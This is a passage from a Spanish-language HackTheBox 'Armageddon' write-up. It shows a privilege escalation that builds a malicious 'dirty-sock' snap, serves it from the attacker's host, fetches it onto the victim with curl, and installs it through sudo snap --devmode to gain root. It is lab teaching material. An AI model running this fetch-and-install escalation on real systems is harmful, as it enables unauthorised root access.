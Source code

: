 ```bash
❭ snapcraft
This snapcraft project does not specify the base keyword, explicitly setting the base keyword enables the latest snapcraft features.
This project is best built on 'Ubuntu 16.04', but is building on a 'Parrot GNU/Linux 4.9' host.
Read more about bases at https://docs.snapcraft.io/t/base-snaps/11198
Sorry, an error occurred in Snapcraft:
Native builds aren't supported on Parrot GNU/Linux. You can however use 'snapcraft cleanbuild' with a container.
```

Si nos fijamos en el output (y recordamos en nuestro research sobre como crear paquetes en Linux) se habla de que va mucho mejor en **Ubuntu** y que en **Parrot OS** no tenemos las opciones nativas... Acá intenté jugar con las "soluciones" que nos daba el propio output y también [con estas maneras de build](https://snapcraft.io/docs/build-options) ofrecidas por una guía](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy), pero nada, no conseguí construir el paquete.

* [Building a snap is easy](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy).

Así que decidí probar a generarlo con una VM **Ubuntu** a ver si era problema mío o si está hecho exclusivamente para **Ubuntu** (aunque pueda que no sea ninguna de las dos opciones :P)... Haciendo el mismo proceso y llegando al último paso nos responde:

![323ubu_generating_snapFile_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323ubu_generating_snapFile_done.png)

Perfecto, se nos genera el archivo, lo pasamos a nuestra máquina de atacante, lo subimos a la máquina víctima e instalamos:

Nos ponemos es escucha mediante un servidor en **Python**:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y ahora lo descargamos:

```bash
[brucetherealadmin@armageddon shm]$ curl http://10.10.14.164:8000/dirty-sock_0.1_amd64.snap -o dirty-sock_0.1_amd64.snap
[brucetherealadmin@armageddon shm]$ ls
dirty-sock_0.1_amd64.snap
[brucetherealadmin@armageddon shm]$ sudo /usr/bin/snap install *
error: cannot find signatures with metadata for snap "dirty-sock_0.1_amd64.snap"

# Le agregamos el parametro "--devmode" para que lo tome como "prueba"
[brucetherealadmin@armageddon shm]$ sudo /usr/bin/snap install * --devmode
dirty-sock 0.1 installed
```

Instalado, asi que validemos si se generó el archivo `.id.txt`:

```bash
[brucetherealadmin@armageddon shm]$ ls -la
total 8
drwxrwxrwt.  2 root              root                80 abr  6 16:27 .
drwxr-xr-x. 19 root              root              3100 abr  6 16:23 ..
-rw-rw-r--.  1 brucetherealadmin brucetherealadmin 4096 abr  6 16:26 dirty-sock_0.1_amd64.snap
-rw-r--r--.  1 root              root                89 abr  6 16:27 .id.txt
[brucetherealadmin@armageddon shm]$ cat .id.txt 
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
[brucetherealadmin@armageddon shm]$
```
